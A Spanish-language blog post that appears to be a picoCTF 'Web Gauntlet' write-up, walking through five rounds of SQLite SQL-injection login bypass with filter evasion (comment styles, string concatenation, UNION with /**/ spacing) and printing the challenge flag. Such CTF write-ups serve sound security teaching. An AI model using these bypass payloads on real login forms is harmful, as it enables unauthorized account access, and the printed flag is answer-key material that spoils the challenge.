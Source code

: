 ```yaml
---
layout: post
title: picoCTF web gauntlet - sql injection y evadiendo filtros
author: c4rta
date: 2023-01-04
banner:
  image: "./assets/images/home/home-t.png"
  opacity: 0.618
  background: "#000"
  height: "50vh"
  min_height: "50vh"
  heading_style: "font-size: 2.25em; font-weight: bold; "
  subheading_style: "color: gold"
#categories: [Desafios Web]
tags: [SQL injection]
---
```

En este desafio explotaremos un SQLi donde hay que evadir un par de filtros para conseguir la flag

{:.lead}

Para este desafio tenemos que hacer bypass de varios filtros usando sql injection, el SGBD es sqlite y el usuario para todos los casos es ```admin```

```http://jupiter.challenges.picoctf.org:41560/``` --> Pagina vulnerable

```http://jupiter.challenges.picoctf.org:41560/filter.php``` --> Filtro de cada round

## Round 1

El primer filtro de debemos de evadir es ```or```, al llenar los campos y presionar en ```sign in``` vemos como nos muestra la consulta, la cual es:

```SELECT * FROM users WHERE username='admin' AND password='admin'```


Aun que no hayamos conseguido iniciar, podemos ver que se esta usando el operador ```AND```, y ```AND``` permite usar multiples condiciones en un ```WHERE```, al usar ```AND```, se asume que que toda la condicion es verdadera, cuando cada condicion sea verdadera.

Ademas debemos de evadir ```OR```, que lo que hace es combinar varias condiciones en un ```WHERE```, y al usarlo se asume que la condicion completa es verdadera cuando cualquiera de las condiciones sea verdadera.

Asi que como sabemos que el usuario debe ser ```admin```, lo que podemos hacer es escapar la consulta desde el ```AND``` para que toda la condicion sea verdadera y asi se cumpliria la condicion ```AND``` ya que ahora la contraseña es igual a lo que le pasemos como input, ```0R``` ya que esta cumpliendo una condicion que es que el usuario sea ```admin``` y ademas omitimos la contraseña, esto lo hacemos comentando desde ```AND```, y queda algo asi:

usuario: ```admin'--```
contra: --> esto puede ser lo que sea


### Round 2

En este round no podemos usar ```OR``` y ```--```, pero realmente es lo mismo que el anterior, ya que en sqlite hay dos tipos de comentario, uno es ```--``` y otro es ```/*``` (la explicacion es la misma).

usuario: ```admin' /*```

Y otra manera de solucionarlo es acortar la consulta, esto para que solo haya una condicion, es decir que el usuario sea admin, la consulta queda asi

```SELECT * FROM users WHERE username='admin';```

Y el input queda asi:

usuario: ```admin;```


### Round 3

Ahora no podemos usar ```OR```, espacios y ```--```, pero esto no importa ya que aun podemos acortar la consulta como en el round pasado y todo queda igual, asi:

```SELECT * FROM users WHERE username='admin';```

El input queda asi:

usuario: ```admin';```

## Round 4

Ahora no podemos usar ```OR```, espacios, ```--``` y la palabra ```admin```.

La manera mas evidente de resolverlo es separar la palabra admin y luego concaternarla, esto lo podemos hacer con ```||``` y luego comentar todo lo demas, de esta manera:

```SELECT * FROM users WHERE username='adm'||'in'/*```

Y como input le podemos pasar esto

```adm'||'in'/*```

Otra manera de resolverlo es usando el operador ```UNION``` y la consulta quedaria algo asi:

```SELECT * FROM users WHERE username='c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

Esto hace dos consultas, la primera es:

```SELECT * FROM users WHERE username='c4rta'```

Y la segunda:

```SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

```UNION``` combina los SELECT, ```/**/``` entre todas las palabras representan los espacios en blanco. Y tenemos que incluir la parte LIMIT 1 porque generalmente en una base de datos, el administrador es la primera entrada de la tabla y con esta consulta, simplemente recuperamos la primera línea, que en este caso es el administrador, entonces nuestro input queda:


usuario: ```c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

## Round 5

Aun que ahora ya no podemos usar el ```UNION``` y todos los demas filtros anteriores, podemos separar la palabra ```admin``` y luego concatenarla, osea que podemos usar uno de los payloads de round 4 y entonces queda asi:

usuario: ```adm'||'in'/*```

Y la flag es: ```picoCTF{y0u_m4d3_1t_275cea1159781d5b3ef3f57e70be664a}```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/web-gaunlet/waifu.jpg)